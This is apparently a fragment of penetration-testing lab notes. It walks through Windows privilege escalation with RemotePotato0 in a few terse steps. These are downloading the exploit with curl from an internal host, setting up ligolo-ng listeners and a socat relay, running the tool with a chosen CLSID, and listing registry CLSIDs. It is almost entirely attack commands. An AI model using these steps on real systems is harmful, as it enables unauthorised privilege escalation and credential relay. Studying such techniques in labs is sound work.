 - install exe file
```
cd c:\
curl http://172.16.8.120:8888/windows/RemotePotato0/zip/RemotePotato0.exe -o rp.exe
```
- Set up listeners on ligolo-ng
```
listener_add --addr 0.0.0.0:135 --to 0.0.0.0:135
listener_add --addr 0.0.0.0:9999 --to 0.0.0.0:9999
```
- run socat on attacker machine
```
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:172.16.8.20:9999
```
- run `RemotePotato.exe` under NT system in RDP
```
.\rp.exe -m 2  -s 2 -x 172.16.8.120 -p 9999 -c '{0002DF02-0000-0000-C000-000000000046}'
```
- search for proper CLSID and compare with CLSIDs from RemotePotato git hub 
```
Get-ChildItem -Path "HKLM:\SOFTWARE\Classes\CLSID" | Select-Object -ExpandProperty PSChildName
```

